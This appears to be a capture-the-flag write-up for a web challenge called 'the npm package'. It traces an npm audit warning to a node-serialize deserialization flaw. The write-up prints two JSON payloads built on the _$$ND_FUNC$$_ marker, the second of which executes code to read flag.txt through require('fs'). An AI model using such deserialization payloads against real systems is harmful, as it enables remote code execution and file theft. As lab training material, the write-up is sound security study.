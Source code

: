 # the npm package
Author: starsiv
## Description
```
Category: web

Install those npm packages they said, It will be helpful they said!

Download `chall.tar.gz`, build and run locally before visiting `http://localhost:3000` 
```
$ tar xzf chall.tar.gz && cd chall
$ docker build -t thepackage:latest .
$ docker run -p 3000:3000 --rm -it thepackage:latest
```
```
## Provided challenge files
* [chall.tar.gz](chall.tar.gz)


---

By downloading the .tar.gz file and running `npm install` we see `npm` triggering on node-serialize with:
https://github.com/advisories/GHSA-q4v7-4rhw-9hqm

This leads to https://opsecx.com/index.php/2017/02/08/exploiting-node-js-deserialization-bug-for-remote-code-execution/ where we discover that we can invoke functions like this:

```
{
 "hello": "_$$ND_FUNC$$_function(){return 'world'}()"
}
```

All we have to to now is to use `fs` and `readFileSync` to get the file contents:

```
{
 "hello": "_$$ND_FUNC$$_function(){return require('fs').readFileSync('flag.txt','utf8') }()"
}
```

